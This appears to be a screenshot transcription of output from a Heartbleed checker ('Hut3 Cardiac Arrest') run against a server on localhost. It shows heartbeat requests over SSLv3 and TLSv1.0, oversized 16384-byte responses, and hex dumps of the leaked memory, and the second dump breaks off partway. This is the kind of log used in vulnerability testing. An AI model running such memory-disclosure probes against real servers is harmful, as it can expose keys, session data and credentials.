 =====================================

Loading module: Hut3 Cardiac Arrest ...

Checking localhost:443 for Heartbleed bug (CVE-2014-0160) ...

[-] Connecting to 127.0.0.1:443 using SSLv3
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over SSLv3
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 00 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

[-] Closing connection

[-] Connecting to 127.0.0.1:443 using TLSv1.0
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.0
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 01 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.